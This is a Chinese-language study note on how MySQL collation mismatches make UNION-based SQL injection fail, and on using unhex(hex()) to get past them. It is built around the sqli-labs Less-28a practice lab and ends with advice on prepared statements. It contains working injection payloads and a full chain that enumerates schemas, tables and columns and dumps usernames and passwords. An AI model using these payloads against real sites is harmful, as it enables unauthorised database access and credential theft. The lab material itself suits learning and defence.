

# 补充：Collation 字符集排序规则与注入绕过

> **一句话理解**：collation 是字符集的"比大小规则"，决定 `'a'` 和 `'A'` 是否相等、`'é'` 排在 `'z'` 前还是后。MySQL 在 `UNION` / `JOIN` / `=` 等需要比较两侧字符串的操作时，要求两侧 collation 必须兼容，否则直接报错拒绝执行——这是 SQL 注入里最隐蔽的坑。

---

## 1. 为什么注入要懂 collation

### 1.1 典型翻车场景

sqli-labs Less-28a 实战踩坑：

```sql
-- 左侧 users.username 列
SELECT * FROM users WHERE id=('') 
UNION ALL SELECT 1, group_concat(table_name), 3   -- ← 右侧 information_schema.tables.table_name
FROM information_schema.tables WHERE table_schema='security'
```

**结果**：PHP 页面空回显，`mysql_fetch_array` 报 warning，直连 MySQL 才看到真凶：

```
ERROR 1271 (HY000): Illegal mix of collations for operation 'UNION'
```

### 1.2 翻车根因

| 列 | 来源 | charset | collation |
| --- | --- | --- | --- |
| `users.username` | 业务表（老 MySQL 默认） | latin1 | `latin1_swedish_ci` |
| `tables.table_name` | information_schema 系统视图 | utf8 | `utf8_general_ci` |

两列 collation 不一致，MySQL 拒绝混合 → ERROR 1271。

### 1.3 最容易误导人的点

**`from mysql.user` 能成功 ≠ collation 没问题**。

`mysql` 系统库的表 collation 恰好和 sqli-labs 的 `users` 表兼容（都是 latin1 系），所以不冲突。这种"局部成功"会让你误以为"带 from 的 union 没问题"，结果一查 information_schema 就翻车。

> ⚠️ **铁律**：`information_schema` 是 utf8 的孤岛，它和任何 latin1 业务表 union 都会冲突。这是 sqli-labs 全系列复用的坑。

---

## 2. collation 基础概念

### 2.1 三层递进理解

**第一层：概括**

collation（排序规则）是字符集的"比大小规则"。它附属于字符集，决定字符串比较、排序、分组时的行为。

**第二层：比喻**

把 collation 想成"比大小的字典"：
- `latin1_swedish_ci` 是一本瑞典字典，规定 `Å` 排在 `Z` 后面
- `utf8_general_ci` 是本国际字典，规定 `Å` 排在 `A` 附近

union 两列数据 = 让两个**拿着不同字典**的人站一排比高矮。一个说"按瑞典规则 Å 比 Z 大"，另一个说"按国际规则 Å 等于 A"。裁判（MySQL）一看规则打架，直接吹哨罢工。

**第三层：细节**

collation 名字拆解：`utf8_general_ci`
- `utf8` → 字符集
- `general` → 规则族（general 是简化版，unicode 是完整 Unicode 规则）
- `_ci` → case insensitive（大小写不敏感）；`_cs` → case sensitive；`_bin` → 二进制比较

### 2.2 MySQL 字符集/collation 三级继承



> 💡 **高优先级覆盖低**：列定义 > 表默认 > 数据库默认 > 服务器默认。连接 collation（`set names` 设置）影响字符串字面量比较。

### 2.3 哪些操作会检查 collation

| 操作 | 是否检查 collation | 严格度 | 报错码 |
| --- | :---: | --- | --- |
| `UNION` / `UNION ALL` | ✅ | 严格 | ERROR 1271 |
| `JOIN ... ON a.x = b.y` | ✅ | 严格 | ERROR 1267 |
| `WHERE a = b` | ✅ | 严格 | ERROR 1267 |
| `CONCAT(a, b)` | ⚠️ | 宽松 | 警告不报错 |
| `GROUP BY` / `ORDER BY` | ⚠️ | 宽松 | 尽量不报错 |

---

## 3. 注入中的典型触发点

### 3.1 三大高发场景

1. **union 查 information_schema.xxx**（系统视图 utf8）和业务表（latin1）——最常撞的
2. **union 查跨库表**，两个库默认字符集不同
3. **子查询返回值 collation** 和外层列冲突

### 3.2 判定信号（第一反应查 collation）

当你 union 注入遇到这些症状，直接查 collation：

| 症状 | 说明 |
| --- | --- |
| 不带 `from` 的 union 成功，带 `from information_schema.xxx` 就空回显 | 典型 collation 冲突 |
| PHP 页面 `Warning: mysql_fetch_array()` 但无 SQL 错误 | `error_reporting(0)` 吞了错，warning 漏出来 |
| `from mysql.user` 能成功但 `from information_schema.xxx` 不行 | collation 恰好兼容的误导信号 |
| 直连 MySQL 跑同样 SQL 报 `ERROR 1271` 或 `ERROR 1267` | 实锤 |

### 3.3 排查手法

```mermaid
graph TB
    A[union 注入空回显] --> B[抓完整 HTML body]
    B --> C{有 mysql_fetch_array warning?}
    C -->|有| D[直连 MySQL 跑同样 SQL]
    C -->|无| E[检查 payload 语法/闭合]
    D --> F{报 ERROR 1271/1267?}
    F -->|是| G[实锤 collation 冲突]
    F -->|否| H[查权限/表不存在等其他原因]
    G --> I[套 unhex(hex()) 重试]
```

> ⚠️ **PHP error_reporting(0) 会吞 SQL 错误**，但 `mysql_fetch_array` 拿到 false 会触发 warning 漏出来。进一步直连 MySQL 用相同凭证跑同样 SQL，真实 ERROR 码一目了然。

---

## 4. 五种 collation 处理姿势对比

### 4.1 对比表

| 姿势                     | payload 示例                             | 优点                   | 缺点                                |  推荐度  |
| ---------------------- | -------------------------------------- | -------------------- | --------------------------------- | :---: |
| `unhex(hex(...))`      | `unhex(hex(group_concat(table_name)))` | 通杀，不依赖知道目标 collation | 长字符串有 `group_concat_max_len` 截断风险 | ⭐⭐⭐⭐⭐ |
| `convert(... using X)` | `convert(table_name using latin1)`     | 显式指定，语义清晰            | 必须知道目标字符集 X，猜错仍冲突                 |  ⭐⭐⭐  |
| `... collate X`        | `table_name collate latin1_general_ci` | 直接改 collation        | collation 名必须存在，猜错报错              |  ⭐⭐   |
| `cast(... as char)`    | `cast(table_name as char)`             | 转成连接默认字符集            | 仍可能 collation 冲突                  |  ⭐⭐   |
| 改连接 collation          | `set names latin1` 后再查                 | 一劳永逸                 | 需多语句执行，注入点不支持就废                   |   ⭐   |

### 4.2 为什么 unhex(hex()) 最稳

**核心原理**：hex 是"universal eraser"，unhex 是"universal rebuilder"。

```mermaid
graph LR
    A["原始字符串<br/>utf8_general_ci<br/>有 collation 属性"] -->|hex()| B["十六进制串<br/>binary<br/>无 collation 属性"]
    B -->|unhex()| C["重建字符串<br/>连接默认 collation<br/>与左列自动对齐"]
    style B fill:#eee,stroke:#333,stroke-width:2px
```

**三步降级重建**：
1. `hex()` 把字符串降级为 binary 数字串 → collation 属性消失
2. binary 是"无 collation"的中立态
3. `unhex()` 重建时，MySQL 用当前连接的默认 collation 重新贴标签
4. 两侧都走这一遭，最终 collation 统一，UNION 通过

> 💡 **不需要知道任何一方的 collation 是什么**。管你 utf8、latin1、gbk，统统变成 binary 数字串；重建时一律用连接默认。这种"先抹掉再统一重建"的思路，在不知道目标环境细节的注入场景里是最保险的。

### 4.3 实战 payload 模板

```sql
-- ⭐ 查所有库名
?id=-1') union all select 1,unhex(hex(group_concat(schema_name))),3 from information_schema.schemata -- 

-- ⭐ 查当前库所有表
?id=-1') union all select 1,unhex(hex(group_concat(table_name))),3 from information_schema.tables where table_schema=database() -- 

-- ⭐ 查列名（table_name 用 hex 编码避免引号）
?id=-1') union all select 1,unhex(hex(group_concat(column_name))),3 from information_schema.columns where table_name=0x7573657273 -- 

-- ⭐ dump 数据（0x3a 是冒号分隔符）
?id=-1') union all select 1,unhex(hex(group_concat(username,0x3a,password))),3 from users -- 
```

### 4.4 unhex(hex()) 的边界与注意事项

| 场景 | 是否有效 | 备注 |
| --- | :---: | --- |
| 普通 union 注入 information_schema | ✅ | 主战场 |
| group_concat 聚合后 | ✅ | 套外层即可 |
| 超长字符串 | ⚠️ | `group_concat_max_len` 默认 1024 字节，需 `limit` 分段或调大 |
| 盲注场景 | ❌ | 无回显，不需要 collation 处理，改用 `ord()`/`ascii()` |
| 报错注入 | ❌ | 报错函数自己处理 collation，不需要套 |

> ⚠️ **group_concat_max_len 坑**：默认 1024 字节，dump 大表会被截断。可在 payload 里加 `limit 0,10` 分段，或 session 级 `SET SESSION group_concat_max_len=102400`（需堆叠注入支持）。

---

## 5. 实战案例：sqli-labs Less-28a

### 5.1 靶场信息

- 地址：`http://sqli-labs:8011/Less-28a/`
- 环境：phpStudy 本地，MySQL 5.7.26，root/123456
- 过滤：`preg_replace('/union\s+select/i',"", $id)`（只过滤 union+select 组合）
- 闭合：`id=('$id')` → 需 `')` 闭合

### 5.2 完整注入链（含 collation 处理）

```sql
-- 1. 探列数 + 回显位（不带 from, 不触发 collation）
?id=-1') union all select 1,2,3 -- 
-- → 第 2、3 列回显

-- 2. 当前库名 + 版本（不带 from, 不触发 collation）
?id=-1') union all select 1,database(),version() -- 
-- → security / 5.7.26

-- 3. ⭐ 所有库名（带 from information_schema, 必须套 unhex(hex())）
?id=-1') union all select 1,unhex(hex(group_concat(schema_name))),3 from information_schema.schemata -- 
-- → information_schema,mysql,performance_schema,pikachu,security,sys

-- 4. ⭐ 当前库所有表
?id=-1') union all select 1,unhex(hex(group_concat(table_name))),3 from information_schema.tables where table_schema=database() -- 
-- → emails,referers,uagents,users

-- 5. ⭐ users 表所有列
?id=-1') union all select 1,unhex(hex(group_concat(column_name))),3 from information_schema.columns where table_name=0x7573657273 -- 
-- → id,username,password,level

-- 6. ⭐ dump 数据
?id=-1') union all select 1,unhex(hex(group_concat(username,0x3a,password))),3 from users -- 
-- → Dumb:22,Angelina:22,...,admin' or 1=1#:22
```

### 5.3 踩坑时间线（复盘）

```mermaid
graph TB
    A[不带 from 的 union 成功] --> B[带 from information_schema 空回显]
    B --> C[抓完整 body 发现 mysql_fetch_array warning]
    C --> D[直连 MySQL 跑同样 SQL]
    D --> E[ERROR 1271 实锤 collation 冲突]
    E --> F[尝试 convert using latin1 → 成功但需猜字符集]
    F --> G[改用 unhex(hex()) → 通杀成功]
    G --> H[完整 dump 数据]
    
    I[中间误入歧途] --> J[from mysql.user 成功]
    J --> K[误以为 collation 没问题]
    K --> L[浪费时间查其他方向]
```

> 💡 **教训**：union 注入有两道关——过滤关 + collation 关。绕过过滤只是入场券，collation 不兼容会悄悄把你干掉（而且 PHP `error_reporting(0)` 把错吞了）。`unhex(hex())` 是通杀解，每次 union 到 information_schema 都套上，省得排查。

---

## 6. 防御视角

### 6.1 根治 collation 冲突

| 措施 | 效果 | 备注 |
| --- | --- | --- |
| 库表列统一用 `utf8mb4` + `utf8mb4_unicode_ci` | 从根上消除冲突 | 推荐，现代项目标配 |
| 连接字符集显式设置 `set names utf8mb4` | 字面量 collation 统一 | 必须与表字符集一致 |
| 预编译语句（PDO/mysqli） | 根治 SQL 注入 | collation 处理是治标，预编译是治本 |

### 6.2 为什么统一 utf8mb4 能抬高注入门槛

- 消除 collation 冲突 → `unhex(hex())` 这种绕 collation 的 trick 失效
- 但**不等于防住 SQL 注入**——过滤绕过、联合查询本身仍有效
- 真正的防御永远是**预编译 + 参数绑定**，collation 统一只是顺带抬高门槛

> ⚠️ **别本末倒置**：collation 处理是注入者的"绕关技巧"，不是防御者的"防注入手段"。防御者该做的是预编译，collation 统一只是附加收益。

---

## 7. 速查总结

### 7.1 一句话记忆

> union 查 information_schema 遇空回显 → 先查 collation → 套 `unhex(hex())` → 通杀。

### 7.2 触发条件速查

```
空回显 + mysql_fetch_array warning + 带 from information_schema 
  = 90% 是 collation 冲突
  = 套 unhex(hex()) 
```

### 7.3 payload 模板

```
unhex(hex(group_concat(目标列)))         -- 聚合查询
unhex(hex((select 子查询)))               -- 子查询
unhex(hex(group_concat(列1,0x3a,列2)))   -- 多列拼接 dump
```

---

## 8. 关联笔记

- [[5.SQL注入入门到精通]] — SQL 注入主笔记，collation 是其中进阶专题
- [[5.1补充：MYSQL命令执行两种方式]] — MySQL 命令执行专题，与 collation 同属 SQL 进阶
- sqli-labs Less-28a 实战记录 — 本笔记案例来源

---

> 📅 **创建日期**：2026-08-19
> 🏷️ **标签**：#SQL注入 #collation #字符集 #sqli-labs #union注入 #进阶
